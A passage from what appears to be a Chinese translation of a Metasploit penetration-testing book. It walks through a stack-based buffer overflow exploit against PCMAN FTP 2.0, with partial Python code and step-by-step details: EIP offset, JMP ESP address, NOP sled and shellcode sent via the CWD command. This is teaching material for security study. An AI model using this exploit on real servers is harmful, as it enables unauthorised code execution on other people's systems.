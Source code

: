 ```
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```

这个简单的漏洞利用使用匿名凭据登录到端口`21`上的 PCMAN FTP 2.0 软件，并使用`CWD`命令利用软件。

有关构建漏洞、将其导入 Metasploit 以及绕过现代软件保护的更多信息，请参阅*Nipun Jaswal*的*Mastering Metasploit 第一版和第二版*的*第 2-4 章*。

从前面列出的漏洞整个过程可以分解为以下一系列步骤：

1.  将用户名、密码和主机存储在`fuser`、`pass`和`host`变量中。

1.  将变量`junk`赋值为`2008 A`个字符。这里，`2008`是覆盖 EIP 的偏移量。

1.  将 JMP ESP 地址分配给`espaddress`变量。这里，`espaddress 0x71ab9372`是目标返回地址。

1.  将 10 个 NOP 存储在变量`nops`中。

1.  将用于执行计算器的有效载荷存储在变量`shellcode`中。

1.  将`junk`、`espaddress`、`nops`和`shellcode`连接起来，并存储在`sploit`变量中。

1.  使用`s.socket(s.AF_INET,s.SOCK_STREAM)`建立套接字，并使用`connect((host,21))`连接到主机的`port 21`。

1.  使用`USER`和`PASS`提供`fuser`和`fpass`以成功登录到目标。

1.  发出`CWD`命令，然后是`sploit`变量。这将导致堆栈上的返回地址被覆盖，使我们控制 EIP，并最终执行计算器应用程序。

了解更多关于栈溢出利用背后的解剖学，访问[`www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/`](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)。

让我们尝试执行利用并分析结果如下：

![](img/00137.jpeg)

原始的利用从命令行获取用户名、密码和主机。但是，我们修改了机制，使用了固定的硬编码值。
